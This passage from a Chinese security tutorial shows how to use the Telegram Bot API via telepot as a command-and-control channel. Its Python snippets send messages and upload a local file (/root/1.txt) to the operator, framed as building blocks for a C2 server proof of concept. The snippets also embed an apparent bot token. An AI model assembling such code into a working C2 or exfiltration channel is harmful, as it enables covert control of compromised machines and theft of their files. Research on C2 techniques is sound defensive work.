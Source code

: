 使用`bot.sendMessage(chat_id, message)`

向Server端发送一条消息，代码如下：

```
import telepot
from pprint import pprint
bot = telepot.Bot('221409431:AAEeLznGb-uzRONKCwHqyywmetjghCkXl_8')
bot.sendMessage(chat_id, 'Hello C2 Server')  

```

**注：**  
chat_id换成自己帐号的chat_id

如图

![Alt text](http://drops.javaweb.org/uploads/images/0966240c8a880af35ff93ca21115b7a78e466593.jpg)

Server端接收消息，显示如下：

![Alt text](http://drops.javaweb.org/uploads/images/647792da369116c6e162d5d0bf042c3eaec7a6b8.jpg)

### 8、发送文件

使用`bot.sendDocument(chat_id,file)`

代码如下：

```
import telepot
from pprint import pprint
bot = telepot.Bot('221409431:AAEeLznGb-uzRONKCwHqyywmetjghCkXl_8')
f = open('/root/1.txt', 'rb')  
bot.sendDocument(chat_id, f)

```

**注：**  
chat_id换成自己帐号的chat_id

如图，Server端可接收bot发过来的文件

![Alt text](http://drops.javaweb.org/uploads/images/a89d8c6857f82b4c654a516fa9388f8d85654876.jpg)

以上介绍了Bot API中发送、接收文本消息和上传、下载文件的功能，剩下只需要将功能拼接，添加命令解析，就可以实现一个简易的C2 Server POC

0x04 bt2测试
==========

* * *

### 1、搭建C2 Server

同0x02

### 2、配置环境
